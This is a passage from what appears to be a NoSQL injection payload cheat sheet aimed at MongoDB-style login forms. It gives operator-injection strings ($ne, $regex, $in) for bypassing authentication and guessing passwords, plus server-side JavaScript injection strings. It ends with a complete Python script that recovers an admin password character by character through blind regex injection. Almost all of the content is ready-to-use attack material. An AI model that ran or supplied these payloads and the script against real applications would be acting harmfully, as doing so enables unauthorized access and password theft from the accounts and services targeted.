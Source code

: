 ```json
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

### Extract data information

```json
in URL
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```

Extract data with "in"

```json
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```

### SSJI 

```json
';return 'a'=='a' && ''=='
";return 'a'=='a' && ''=='
0;return true
```


## Blind NoSQL

### POST with JSON body

python script:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```
